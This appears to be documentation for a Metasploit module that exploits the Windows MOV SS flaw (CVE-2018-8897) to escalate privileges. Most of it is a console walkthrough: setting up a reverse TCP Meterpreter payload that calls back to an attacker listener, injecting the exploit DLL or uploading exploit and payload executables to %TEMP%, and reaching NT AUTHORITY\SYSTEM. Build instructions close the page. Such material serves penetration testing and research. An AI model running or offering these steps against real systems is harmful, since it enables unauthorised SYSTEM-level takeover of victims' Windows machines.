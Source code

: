 ## Description

This module exploits a MOV SS vulnerability that is specifically made against Microsoft Windows
(except for Windows XP).

Depending on the value of `USE_INJECTION` It will either inject a dll with the exploit
code into a process, or it will upload a pre-compiled exploit onto the target machine, followed
by the final payload (such as a Meterpreter) in order to gain remote code execution.

## Vulnerable Target

Please note that this module may not work with certain hypervisors (such as VMWare). You should
test it on a real machine if possible.

## Verification Steps
```
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.135.111:4567
[*] Sending stage (206403 bytes) to 192.168.136.142

meterpreter > getuid
Server username: DESKTOP-QGIC71I\msfuser
meterpreter > sysinfo
Computer        : DESKTOP-QGIC71I
OS              : Windows 10 (Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/mov_ss
msf exploit(windows/local/mov_ss) > show options

Module options (exploit/windows/local/mov_ss):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   EXECUTE_DELAY  3                no        The number of seconds to delay before executing the exploit if USE_INJECTION=false
   EXPLOIT_NAME                    no        The filename to use for the exploit binary if USE_INJECTION=false (%RAND% by default).
   PATH                            no        Path to write binaries if if USE_INJECTION=false(%TEMP% by default).
   PAYLOAD_NAME                    no        The filename for the payload to be used on the target host if USE_INJECTION=false (%RAND%.exe by default).
   SESSION        1                yes       The session to run this module on.
   USE_INJECTION  true             yes       Use in-memory dll injection rather than exe file uploads.


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.135.111  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf exploit(windows/local/mov_ss) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/mov_ss) > set lhost 192.168.135.111
lhost => 192.168.135.111
msf exploit(windows/local/mov_ss) > set lport 4567
lport => 4567
msf exploit(windows/local/mov_ss) > run

[*] Started reverse TCP handler on 192.168.135.111:4567
[*] Attempting to PrivEsc on DESKTOP-QGIC71I via session ID: 1
[*] Checking target...
[*] Attempting to PrivEsc on DESKTOP-QGIC71I via session ID: 1
[*] Target looks good... reflectively injecting exploit DLL and triggering exploit!
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (206403 bytes) to 192.168.136.142

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.136.142 - Meterpreter session 3 closed.  Reason: User exit
msf exploit(windows/local/mov_ss) > set USE_INJECTION false
USE_INJECTION => false
msf exploit(windows/local/mov_ss) > run

[*] Started reverse TCP handler on 192.168.135.111:4567
[*] Attempting to PrivEsc on DESKTOP-QGIC71I via session ID: 1
[*] Exploit uploaded on DESKTOP-QGIC71I to C:\Users\msfuser\AppData\Local\Temp\ACLgNJAJ.exe
[*] Payload (7168 bytes) uploaded on DESKTOP-QGIC71I to C:\Users\msfuser\AppData\Local\Temp\kWDncKCjHtb.exe
[*] Running exploit C:\Users\msfuser\AppData\Local\Temp\ACLgNJAJ.exe with payload C:\Users\msfuser\AppData\Local\Temp\kWDncKCjHtb.exe
[*] Sending stage (206403 bytes) to 192.168.136.142
^C[-] Exploit failed: Interrupt
msf exploit(windows/local/mov_ss) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                                Connection
  --  ----  ----                     -----------                                ----------
  1         meterpreter x64/windows  DESKTOP-QGIC71I\msfuser @ DESKTOP-QGIC71I  192.168.135.111:4567 -> 192.168.136.142:49696 (192.168.136.142)
  4         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ DESKTOP-QGIC71I      192.168.135.111:4567 -> 192.168.136.142:49699 (192.168.136.142)

msf exploit(windows/local/mov_ss) > exit
```

## Build Instructions
For both the dll and exe, use Visual studio solutions found in
./external/source/exploits/cve-2018-8897
then copy the resulting binaries to
./data/exploits/cve-2018-8897
